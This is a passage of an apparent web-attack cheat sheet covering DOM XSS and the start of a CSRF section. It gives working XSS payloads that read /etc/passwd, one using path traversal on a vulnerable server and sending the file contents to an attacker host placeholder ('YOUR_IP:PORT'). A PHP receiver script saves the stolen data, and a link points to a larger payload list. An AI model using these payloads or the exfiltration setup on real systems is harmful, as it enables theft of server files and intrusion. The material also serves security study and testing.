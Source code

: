 ```
http://example.com/page#<script>alert(1)</script>
```

> 📝 **IMPORTANT**: **DOM XSS** happens **only in the browser**, so check how the page shows data, not what the server returns.


### XSS PAYLOADS

**Read or exfiltrate /etc/passwd**

```php
// Display file content directly in the browser
<script>
var x = new XMLHttpRequest();
x.onload = function() { document.write(this.responseText); };
x.open('GET','file:///etc/passwd');
x.send();
</script>

// Fetch file from vulnerable server and send to attacker
<script>
fetch("http://example.com/messages.php?file=../../../../../../../../../etc/passwd")
  .then(r => r.text())
  .then(data => {
    fetch("http://YOUR_IP:PORT/receive.php?file_content=" + encodeURIComponent(data));  
  });
</script>
```

PHP script to save the data (**receive.php**):

```php
<?php
if (isset($_GET['file_content'])) {
    file_put_contents('passwd_dump.txt', $_GET['file_content'] . "\n", FILE_APPEND);
}
?>
```

- First payload tries to read ***/etc/passwd*** from the victim's machine.

- Second payload reads ***/etc/passwd*** from a vulnerable server and sends it to us.

You can find more payloads [**here**](https://github.com/payloadbox/xss-payload-list)

---

## 🏴‍☠️ Cross-Site Request Forgery (CSRF)

Cross-Site Request Forgery (CSRF) is an attack that tricks a user into performing actions on a web application in which they are authenticated, without their knowledge. 

### How CSRF Works
